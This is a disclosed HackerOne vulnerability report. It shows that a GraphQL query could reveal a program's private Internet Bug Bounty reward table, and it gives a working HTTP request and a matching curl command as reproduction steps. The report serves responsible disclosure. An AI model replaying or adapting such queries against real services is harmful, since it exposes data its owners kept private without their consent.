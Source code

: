 # Being able to disclose IBB bounty table of any public program

## Report Details
- **Report ID**: 2322082
- **URL**: https://hackerone.com/reports/2322082
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2024-01-16T13:34:59.541Z
- **Disclosed**: 2024-03-17T10:33:32.545Z

## Reporter
- **Username**: akashhamal0x01
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
**Summary:**

Hi there, I hope you are doing well :)

According to  https://docs.hackerone.com/en/articles/8496298-internet-bug-bounty 

██████

It says "You can opt-in by setting up your bounty table on your main program’s rewards settings page (instructions below). This bounty table is private and indicates how much you will award for vulnerabilities discovered in open-source projects"

Which means the IBB bounty table is private but i was able to disclose IBB bounty table


### Steps To Reproduce

1.  Send this HTTP request:

```HTTP


POST /graphql HTTP/2
Host: hackerone.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: application/json
Content-Type: application/json
Content-Length: 157
Te: trailers

{"query":"{\r\n  team(handle: \"security\") {\r\n\r\nibb_bounty_table {\r\n      critical\r\n      high\r\n      medium\r\n      low\r\n    }\r\n}\r\n}\r\n"}

```

OR 

run this curl command :


```

curl -i -s -k -X $'POST' \
    -H $'Host: hackerone.com' -H $'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0' -H $'Accept: application/json' -H $'Content-Type: application/json' -H $'Content-Length: 157' -H $'Te: trailers' \
    --data-binary $'{\"query\":\"{\\r\\n  team(handle: \\\"security\\\") {\\r\\n\\r\\nibb_bounty_table {\\r\\n      critical\\r\\n      high\\r\\n      medium\\r\\n      low\\r\\n    }\\r\\n}\\r\\n}\\r\\n\"}' \
    $'https://hackerone.com/graphql'

```
it will disclose IBB bounty table of Hackerone:

█████

## Impact

Private information disclosure

## Attachments
No attachments
